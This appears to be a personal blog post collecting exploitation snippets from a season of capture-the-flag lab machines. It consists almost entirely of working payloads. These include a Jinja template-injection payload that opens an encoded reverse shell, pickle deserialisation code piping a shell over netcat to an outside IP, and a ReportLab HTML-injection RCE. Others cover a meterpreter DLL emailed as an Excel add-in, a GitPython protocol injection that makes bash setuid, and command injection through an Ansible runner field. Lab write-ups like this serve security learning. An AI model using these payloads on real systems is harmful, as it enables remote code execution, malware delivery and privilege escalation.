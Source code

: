 ```yaml
---
title: "Season 5 Summary"
date: 2024-07-21
---
```



Overall I learned a lot and these are some of my favorite snippets that i definitely will be keeping. SPOILERS REMOVED don't worry.

## SSTI With Jinja

Context: Obtaining Foothold using Server Side Template Injection with Jinja

I can see that I can by pass with this
```
invoice_id=&form_type=scannable_invoice&qr_link=https%3A%2F%2Fbruhaps.htb%2Fstatic%2Fqr_code%2Fqr_code_5868828307.png" {{'><script>;</script>'|safe}}
```

### Final SSTI Payload
```
invoice_id=&form_type=scannable_invoice&qr_link={% with a = request["application"]["\x5f\x5fglobals\x5f\x5f"]["\x5f\x5fbuiltins\x5f\x5f"]["\x5f\x5fimport\x5f\x5f"]("os")["popen"]("echo MDwmMTk2O2V4ZWMgMTk2PD4vZGV2L3RjcC8xMC4xMC4xNC43LzQ0NDQ7IC9iaW4vc2ggPCYxOTYgPiYxOTYgMj4mMTk2 | base64 -d | bash")["read"]() %} a {% endwith %}
```

On attack machine
```bash
┌──(kali㉿kali)-[~]
└─$ nc -lvnp 4444
listening on [any] 4444 ...

connect to [10.10.14.7] from (UNKNOWN) [10.10.11.12] 46716

ls
app.py
static
templates
python3 -c 'import pty; pty.spawn("/bin/bash")'
www-data@cheeese:/opt/app$ ls
```


---
## Pickle RCE

Context: This was a machine learning server, and I was a low privilege user related to the ML training.

https://exploit-notes.hdks.org/exploit/web/framework/python/python-pickle-rce/

```
import pickle import base64 import os class RCE: def __reduce__(self): cmd = ('rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc 10.0.0.1 4444 > /tmp/f') return os.system, (cmd,) if __name__ == '__main__': pickled = pickle.dumps(RCE()) print(base64.b64encode(pickled)) # or print(base64.urlsafe_b64encode(pickled))
```

### Final Python RCE

```python
from clearml import Task
import pickle,os

class RunCommand:
    def __reduce__(self):
        return (os.system, ('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 10.10.14.16 4444 >/tmp/f',))


command = RunCommand()


task = Task.init(project_name='Black Swan', task_name='pickle_artifact_upload', tags=["review"], output_uri=True)

task.upload_artifact(name='pickle_artifact', artifact_object=command, retries=2, wait_on_upload=True, extension_name=".pkl")


with open('pickle_artifact.pkl','wb') as f:
    pickle.dump(command,f)

```

---
## RCE Via Html Injection

Context: Obtain Foothold using Htmli

https://github.com/Sudistark/BB-Writeups/blob/main/2023/CVE-2023-33733-rce-via-htmli-in-reportlab.md

Start Listener

```
nc -lvnp 4444
```

Payload used for rev shell

```html
ASSS<font color="[[[getattr(pow, Word('__globals__'))['os'].system('powershell -e JABjAGwAaQBlBASE64PAYLOADAKQA=') for Word in [ orgTypeFun( 'Word', (str,), { 'mutated': 1, 'startswith': lambda self, x: 1 == 0, '__eq__': lambda self, x: self.mutate() and self.mutated < 0 and str(self) == x, 'mutate': lambda self: { setattr(self, 'mutated', self.mutated - 1) }, '__hash__': lambda self: hash(str(self)), }, ) ] ] for orgTypeFun in [type(type(1))] for none in [[].append(1)]]] and 'red'">
                exploit
</font>
```

---
## Sending a malicious XLL via email

Context: Obtaining Foothold by sending an email allowing excel files. 

https://github.com/edparcell/HelloWorldXll

Generate payload with msfvenom
```bash
 msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.15.68 LPORT=4444 -f dll -o ex.dll


cp ex.dll ex.xll
```


Send the malicious `.xll`
```bash
swaks --to accounts@BRUH.htb --from assinine@BRUH.htb --server MAINFRAME.BRUH.htb --port 25 --header "Subject: test" --body "test" --attach @ex.xll
```


```cmd
C:\>whoami
whoami
AHHHHH YOU THOUGHT
```

---

## Priv Esc with GitPython

Context: User Foothold obtaining root.

Prod Perms

```
User prod may run the following commands on BRUH:
    (root) /usr/bin/python3 /opt/internal_apps/clone_changes/clone_prod_change.py *
```

Contents of `clone_prod_change.py`

```python
#!/usr/bin/python3

import os
import sys
from git import Repo

os.chdir('/opt/internal_apps/clone_changes')

url_to_clone = sys.argv[1]

r = Repo.init('', bare=True)
r.clone_from(url_to_clone, 'new_changes', multi_options=["-c protocol.ext.allow=always"])
```

https://github.com/gitpython-developers/GitPython/issues/1515
https://security.snyk.io/vuln/SNYK-PYTHON-GITPYTHON-3113858


```
'ext::sh -c chmod% 4777% /bin/bash'
```


## Root

```
prod@linux:~$ /bin/bash -p
bash-5.1# id
uid=1000(prod) gid=1000(prod) euid=0(root) groups=1000(prod)
bash-5.1# cat /root/root.txt
SECRET
bash-5.1# 
```

---

## Root with Ansible

Context: I had perms for Ansible runner.
### Find Ansible Hash
```C
// Version : 1 #include <stdio.h> #include <stdlib.h> #include <string.h> #include <dirent.h> #include <openssl/md5.h> #define INVENTORY_FILE "/opt/playbooks/inventory.ini" #define PLAYBOOK_LOCATION "/opt/playbooks/" #define ANSIBLE_PLAYBOOK_BIN "/usr/bin/ansible-playbook" #define ANSIBLE_GALAXY_BIN "/usr/bin/ansible-galaxy" #define AUTH_KEY_HASH "0feda17076d793c2ef2870d7427ad4ed" int check_auth(const char* auth_key) { unsigned char digest[MD5_DIGEST_LENGTH]; MD5((const unsigned char*)auth_key, strlen(auth_key), digest); char md5_str[33]; for (int i = 0; i < 16; i++) { sprintf(&md5_str[i*2], "%02x", (unsigned int)digest[i]); }
```

### Crack the Ansible hash
```
hashcat -a3 -m0 myhash.txt UH4565jkl?u?u?u?u --self-test-disable
```

```
HASH:RESult
```

### Root Access

Create json file and insert command injection.

```json
{
 "run": {
    "action": "install",
    "role_file": "archive.tar;bash"},
 "auth_code": "CRACKEDRESULT"
}
```


```
sudo /opt/runner/runner rce.json
```


